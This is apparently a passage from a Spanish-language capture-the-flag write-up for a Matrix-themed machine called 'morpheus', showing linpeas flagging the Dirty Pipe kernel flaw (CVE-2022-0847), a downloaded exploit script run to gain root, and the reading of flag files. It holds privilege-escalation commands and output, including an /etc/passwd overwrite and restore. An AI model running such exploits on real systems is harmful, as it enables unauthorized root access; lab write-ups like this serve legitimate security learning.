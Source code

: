 Si intentamos crackear el hash, este no nos dejará entrar a la web, así que no le veo el sentido a crackearlo ahora mismo

Inspeccionando el sistema con linpeas, nos arroja que el sistema es vulnerable a [CVE-2022-0847](https://gitcode.net/mirrors/r1is/CVE-2022-0847), el cúal es un Dirty Pipe, descargaremos el archivo, le daremos permisos de ejecución y conseguiremos la shell como el usuario `root`!

```shell
www-data@morpheus:/tmp$ chmod +x Dirty-Pipe.sh 
www-data@morpheus:/tmp$ ./Dirty-Pipe.sh 
/etc/passwd已备份到/tmp/passwd
It worked!

# 恢复原来的密码
rm -rf /etc/passwd
mv /tmp/passwd /etc/passwd
root@morpheus:/tmp# 
```

Ahora que somos el usuario `root`, podremos leer las flags (tanto del usuario root y la del usuario cypher)

```shell
root@morpheus:~# cat FLAG.txt 
You've won!

Let's hope Matrix: Resurrections rocks!

root@morpheus:~# cat /home/cypher/FLAG.txt 
You've clearly gained access as user Cypher.

Can you find a way to get to root?
root@morpheus:~# 
```

A día de hoy no sé si habrán otras maneras de escalar privilegios, si se encuentra alguna otra manera, abridme un MD al discord `L4nder#3180`